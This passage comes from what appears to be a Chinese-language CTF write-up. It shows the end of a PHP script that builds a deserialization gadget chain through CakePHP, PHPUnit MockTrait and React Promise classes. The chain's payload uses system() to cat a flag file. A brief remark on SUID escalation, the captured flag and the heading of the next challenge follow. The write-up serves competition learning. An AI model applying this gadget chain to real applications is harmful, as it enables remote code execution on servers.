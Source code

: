 ```php
        $this-&gt;stream = new Table();
    }
}

namespace Cake\ORM;
use PHPUnit\Framework\MockObject\Generator\MockTrait;
class Table {
    protected BehaviorRegistry $_behaviors;
    public function __construct() {
        $this-&gt;_behaviors = new BehaviorRegistry();
    }
}
class ObjectRegistry {}
class BehaviorRegistry extends ObjectRegistry {
    protected array $_methodMap;
    protected array $_loaded;
    public function __construct() {
        $this-&gt;_methodMap = [&#34;rewind&#34;=&gt;array(&#34;mz&#34;,&#34;generate&#34;)];
        $this-&gt;_loaded = [&#34;mz&#34;=&gt;new MockTrait()];
    }
}

namespace PHPUnit\Framework\MockObject\Generator;
class MockTrait {
    private string $classCode;
    private string $mockName;
    public function __construct() {
        $this-&gt;mockName = &#34;mz&#34;;
        // $this-&gt;classCode = &#34;phpinfo();&#34;;
        // $cmd = &#34;ls /&#34;;
        $cmd = &#34;find / -name flag.txt -exec cat /flag.txt \;&#34;;
        $this-&gt;classCode = &#39;system(&#34;&#39;.$cmd.&#39;&#34;);&#39;;
    }
}

namespace React\Promise\Internal;
echo base64_encode(serialize(new RejectedPromise()));

?&gt;
```

同样的， suid 提权，读 flag

![image-20250125230928194](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/25/6794fea8c91e0.png)

&gt; SUCTF{PoP_CHaiN5_@Re_SO_fUn!!!}

### SU_blog

#### 0x00 信息收集
